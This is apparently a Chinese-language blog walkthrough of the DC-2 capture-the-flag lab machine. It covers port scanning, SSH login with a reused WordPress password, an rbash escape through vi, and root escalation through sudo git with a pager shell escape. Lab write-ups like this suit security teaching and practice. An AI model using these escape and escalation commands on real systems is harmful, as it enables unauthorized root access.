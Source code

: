 {{< figure src="/ox-hugo/_20241226_094429screenshot.png" >}}

发现一开始用 nmap 的默认参数扫端口漏了一个，应该扫全端口的😅

| PORT     | STATE | SERVICE | VERSION                                      |
|----------|-------|---------|----------------------------------------------|
| 80/tcp   | open  | http    | Apache httpd 2.4.10 ((Debian))               |
| 7744/tcp | open  | ssh     | OpenSSH 6.7p1 Debian 5+deb8u7 (protocol 2.0) |

尝试一下发现 tom 的 wordpress 密码和 ssh 密码相同，直接登录

```text
ssh tom@dc-2 -p 7744
```

发现 shell 是 [rbash](https://www.gnu.org/software/bash/manual/html_node/The-Restricted-Shell.html)，很多命令无法使用，可以用 `compgen -c` 看看可以执行的命令有哪些

看到可以运行 vi（其实运行的是 vim）那么参考 [GTFOBins](https://gtfobins.github.io/gtfobins/vim/) 进行提权

```text
vi --cmd ':set shell=/bin/bash|:shell'
```

之后再执行命令会显示 `command not found` 但其实已经拿到功能完整的 bash shell 了，更新一下 PATH 环境变量即可执行常用命令

```shell
export PATH=/bin:/sbin:/usr/bin:/usr/sbin
cat flag3.txt
# Poor old Tom is always running after Jerry. Perhaps he should su for all the stress he causes.
```

根据 flag3 的提示使用 su 切换到 jerry 用户，密码是之前扫出来的 wordpress 密码，读到 flag4（tom 也能读到）

```shell
cat /home/jerry/flag4.txt
# Good to see that you've made it this far - but you're not home yet.
# You still need to get the final flag (the only flag that really counts!!!).
# No hints here - you're on your own now.  :-)
# Go on - git outta here!!!!
```

还有最后一个 flag，而且提示了 git，自然想到[利用 git 提权](https://gtfobins.github.io/gtfobins/git/)

首先检查一下 jerry 的 sudo 列表，可以执行 git（tom 没有 sudo 权限）

```shell
sudo -l
# User jerry may run the following commands on DC-2:
#     (root) NOPASSWD: /usr/bin/git
```

虽然不允许设置 PAGER 环境变量，但可以先进入默认 pager 再执行命令

```shell
sudo git -p help config
!/bin/bash
```

<details><summary>cat /root/final-flag.txt</summary></details>

